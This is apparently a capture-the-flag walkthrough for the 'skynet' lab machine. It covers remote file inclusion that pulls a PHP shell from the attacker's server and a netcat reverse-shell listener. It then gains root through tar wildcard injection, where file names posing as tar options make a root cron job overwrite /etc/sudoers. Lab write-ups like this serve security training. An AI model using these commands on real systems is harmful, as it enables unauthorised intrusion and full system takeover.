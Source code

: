 ```bash
ls
shell.php

sudo python3 -m http.server 80
```

- Then, start a listener `rlwrap nc -nvlp 3131`

- Navigate to `http[:]//ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http[:]//yourIP:80/shell.php

- Stabilise the shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

<CTRL + Z>
stty raw -echo; fg
```

```bash
www-data@skynet:/$ whoami
www-data
```

- The first flag is in `/home/milesdyson/user.txt`

- Here is also a `backups` directory

```bash
ls -l backups/

-rwxr-xr-x 1 root root      74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root root 4679680 Nov 25 07:48 backup.tgz
```

```bash
www-data@skynet:/home/milesdyson$ cat backups/backup.sh 

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

- There is also a `cronjob` in `/etc/crontab` that will run the `backup.sh` file as root.

- We see that the last command is `tar cf` and it'll run as root. `tar` can be used to escalate privileges if given acces to by spawning a shell

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

- What are we going to do, is to create the additional parameters as names in the `/var/www/html` directory, where it'll read files from, as root.

```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > magic.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh magic.sh"
echo "/var/www/html"  > --checkpoint=1
```
